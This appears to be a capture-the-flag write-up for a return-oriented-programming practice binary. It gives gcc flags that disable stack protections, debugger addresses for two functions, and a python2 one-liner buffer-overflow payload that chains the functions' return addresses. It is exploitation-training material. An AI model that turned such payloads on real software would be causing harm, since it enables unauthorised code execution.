 ### How to compile binary (disable ASLR):

`gcc roplevel1.c -o roplevel1 -fno-stack-protector -z execstack -m32 -no-pie -Wl,-z,norelro -mpreferred-stack-boundary=2`

### Analysis:

```
pwndbg> x secret
0x80491bb <secret>:	0x53e58955
pwndbg> x change
0x8049186 <change>:	0x53e58955
```

### Methodolody:

Chain change() and secret() one after the other such that when the main function finishes is returning, it will return to the change function. When the change function finishes and is returning, it returns to the secret() function.

### Answer:

`python2 -c "print('A' * 20 + '\x86\x91\x04\x08\xbb\x91\x04\x08' + 'B'*20)" | ./roplevel1`

### Notes

- you have python2 and python3 installed on your system, make sure to run the exploit with python2 as python2 and python3 interpret byte strings `"\x$$"` differently as seen [here](https://stackoverflow.com/questions/60660568/overflowed-bytes-different-than-those-i-see-on-gdb)

- To ensure that the binaries are compiled and are functioning as close to what the author intended, use [checksec.rs](https://github.com/etke/checksec.rs) on the Mach-O executables (original ones) and [checksec.sh](https://github.com/slimm609/checksec.sh) on your elf executables and ensure that the security properties of both executables are as similar as possible
